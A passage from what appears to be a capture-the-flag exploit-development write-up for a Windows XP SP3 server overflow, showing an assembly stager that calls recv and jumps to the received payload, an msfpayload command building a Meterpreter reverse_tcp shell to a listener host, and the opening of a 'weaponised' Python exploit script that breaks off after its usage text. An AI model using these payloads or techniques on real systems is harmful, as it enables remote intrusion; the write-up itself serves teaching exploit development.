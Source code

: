The beauty of this approach is that the stack is currently set up ready to call `recv` except for the socket handle, all we need to do adjust for the function and call it. We have another issue here though because the address contains an `0C` which is a bad character. So instead we use Mona.py again to tell us a reference point for `recv` using the `iat` command. This gives us an address located at `0x004082DC`. We can use this address instead and call using `CALL [EBX]` instead.

{% codeblock ASM listing %}
MOV BX,82DC           ; Set EBX up for the `recv` call, but can't use 0C because it's "bad"
PUSH EDI              ; push the socket handle
{% endcodeblock %}

But wait! We can't invoke `recv` because we have run out of space, we have to make use of the last 4 bytes we have tucked away, so to do this we need to jump ahead by 5 bytes. There we can invoke the call:

{% codeblock ASM listing %}
CALL [EBX]            ; Call `recv`
{% endcodeblock %}

And the icing on the cake, `ESI` containers the memory pointer the payload was written to, so we just jump there and off we go!

{% codeblock ASM listing %}
JMP ESI               ; Invoke the received payload
{% endcodeblock %}

If we exclude the 1 blank that is placed after block2, we literally have zero bytes left to play with. Talk about cutting it fine!

## Finishing up

Now before our final run, we'll need to generate a payload that we want to execute. In my case I'm going to use a meterpreter payload:

{% codeblock Meterpreter payload creation %}
$ msfpayload windows/meterpreter/reverse_tcp LHOST=10.1.10.40 LPORT=8000 R > revmet8000.bin
{% endcodeblock %}

I'm going to use this as the content that I sent to the server at the end of the exploit. We'll actually pass this in on the command line from here.

And so with a few more adjustments and some spit'n'polish, we have a weaponised exploit ready to go (breakpoint free!) that looks like this:

{% codeblock sploit.py FINAL version lang:python %}
#!/usr/bin/python

import socket, struct, time, sys

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

if len(sys.argv) != 5:
  print "Usage: {0} <target> <host> <port> <payload>".format(sys.argv[0])
  print "   Targets:"
  for i in range(0, len(targets)):
    print "     {0}: {1}".format(i, targets[i]['Name'])
  print "Eg. {0} 0 127.0.0.1 21 revshell.bin".format(sys.argv[0])
  sys.exit(1)


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux